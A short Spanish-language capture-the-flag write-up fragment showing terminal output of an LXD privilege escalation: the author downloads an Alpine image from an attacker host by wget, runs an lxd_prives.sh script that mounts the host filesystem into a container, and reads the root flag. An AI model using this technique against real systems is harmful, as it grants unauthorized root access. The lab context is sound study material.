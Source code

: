 ```bash
joestar@tank1:~$ wget http://10.10.0.128:4444/alpine-v3.17-x86_64-20230403_1455.tar.gz
--2023-04-03 17:28:51--  http://10.10.0.128:4444/alpine-v3.17-x86_64-20230403_1455.tar.gz
Connecting to 10.10.0.128:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3691982 (3.5M) [application/gzip]
Saving to: 'alpine-v3.17-x86_64-20230403_1455.tar.gz'

alpine-v3.17-x86_64-20230403_14 100%[=======================================================>]   3.52M  5.68MB/s    in 0.6s    

2023-04-03 17:28:51 (5.68 MB/s) - 'alpine-v3.17-x86_64-20230403_1455.tar.gz' saved [3691982/3691982]

joestar@tank1:~$ 
```

Y funciona

```bash
joestar@tank1:~$ ./lxd_prives.sh -f alpine-v3.17-x86_64-20230403_1455.tar.gz 
If this is your first time using LXD, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: d462bc978066d8b6ddc188796b11d22d90389c23020689278a2f86af38f61b66
LXD has been successfully configured.
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| alpine | d462bc978066 | no     | alpine v3.17 (20230403_14:55) | x86_64 | 3.52MB | Apr 3, 2023 at 9:29pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
Creating privesc

The container you are starting doesn't have any network attached to it.
  To create a new network, use: lxc network create
  To attach a network to a container, use: lxc network attach

Device giveMeRoot added to privesc
~ # cd /
/ # cd mnt
/mnt # cd root
/mnt/root # 
```

```bash
/mnt/root/root # cat flag.txt 
9b417d361dbdca5f0d08663ad261e66d

My LinkedIn:
https://www.linkedin.com/in/joas-antonio-dos-santos/
```
